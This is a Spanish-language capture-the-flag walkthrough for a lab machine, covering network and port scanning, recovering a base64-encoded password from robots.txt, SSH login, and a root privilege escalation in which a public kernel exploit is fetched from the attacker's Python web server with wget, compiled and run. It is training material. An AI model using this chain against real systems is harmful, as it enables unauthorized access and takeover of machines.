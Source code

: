 **1.- Escaneo de la red local:**
Para escanear la red local para identifica la IP de la máquina, para ello usaremos el siguiente comando:

arp-scan --localnet
<img src="Pasted image 20240225101807.png">

**2.- Escanear puertos abiertos:**
Para poder ver los puertos abiertos de la maquina hay que usar el siguiente comando:

nmap -sS -sV (ip de la máquina)
<img src="Pasted image 20240225102213.png">

Al ver que hay el puerto 80 abierto, vemos que equivale al protocolo HTTP y eso es una web.

**3.- Abrimos la web en el navegador:**
Para abrir la web hay que introducir la IP de la máquina en el navegador.
<img src="Pasted image 20240225103209.png">

Una vez la hemos abierto vamos a ver el código fuente le daremos click derecno y a view page source. 
<img src="Pasted image 20240225103613.png">

Podemos ver abajo de todo que nos da el usuario.

Seguindamente iremos a la pagina web i escribiremos al lado de la ip /robots.txt que esto nos puede dar pistas de donde esta ubicaedo el sitemap de la web.
<img src="Pasted image 20240225103908.png">

Vemos que nos da algo cifrado, al ver que contiene numeros, mayusculas, minusculas deducimos que es un hash en base 64. entonces lo vamos a descifrar.

**4.- Descifrar el hash:**

Para descifrar el hash introduciremos el siguiente comando.
<img src="Pasted image 20240225104221.png">

Al descifrarlo vemos que nos da la primera flag. Lo mejor de todo esque esta es la password del usuario que hemos visto anteriormente.

Entonces, recordando que al hacer el escaneo de puetos hemos visto que podriamos entrar via el protocolo ssh.

**5.- Entrar en la máquina por ssh:**
Para entrar via ssh a una máquina hay que escribir el siguiente comando.

ssh usuario@ip
<img src="Pasted image 20240225104841.png">

Una vez entramos nos queda encontrar 2 flags, miraremos si hay algún archivo que nos indique donde podemos encontrar las siguienters flags. Entonces escribiremos los siguientes comandos.
<img src="Pasted image 20240225105208.png">
Podemos ver que hay el archivo flag2.txt nos muestra el la flag en binario, por lo tanto para saber el contenido de esta en ascii, nos tendremos que generar el siguiente script para traducirlo.
<img src="Pasted image 20240225105619.png">

Ahora ejecutamos el script con el sigiente comando.
python3 (nombre archivo).py
<img src="Pasted image 20240225105706.png">

Ya tenemos dos flags, solo nos queda escalar privilegios y conseguir la flag del usuario root (administrador).

**6.- Escalada de privilegios:**

Para escalar privilegios primero tenemos que mirar que permisos tenemos como usuario. Para ello, escribimos el siguiente comando.

find / -perm -u=s -type f 2>/dev/null
<img src="Pasted image 20240225110032.png">
Al ver que con estos permisisos no podemos escalar, debemos mirar la version del sistema operativo para ver si es muy anterior y asi podemos buscar un script o programarlo.

lsb_release -a
<img src="Pasted image 20240225110243.png">
Al ver que la version de ubunto es muy antigua, entonces buscaremos el script para escalar privilegios.
Descargamos el exploit de esta url: https://www.exploit-db.com/exploits/37292

Al tenerlo en la máquina atacante, hay enviarseolo a la máquina víctima, para ello montaremos un servidor python.

python3 -m http.server 80
<img src="Pasted image 20240225110710.png">

Lo descargaremos desde la máquina victima usando el siguiente comando.

wget (ip)/(nombre archivo)
<img src="Pasted image 20240225110817.png">

**7.- Ejecutar y encontrar la flag:**
Para ejecutar el script hay que escribir los siguientes comandos:
1. Primero hay que compilarlo:

gcc -o (nombre que quieres renombrar para ejecutar) (archivo).c
<img src="Pasted image 20240225110943.png">
2. Seguidamente hay que ejecutarlo:

./(nombre del archivo compilado)
<img src="Pasted image 20240225111057.png">

Con estso ya somos usuario root.

whoami
<img src="Pasted image 20240225111124.png">
Para mostrar las rutas hay que escribir el siguiente comando:

script /dev/null -c bash
<img src="Pasted image 20240225111333.png">

Ahora ya solo nos queda ir al carpeta del usuario root y encontrar la falg.
<img src="Pasted image 20240225111431.png">
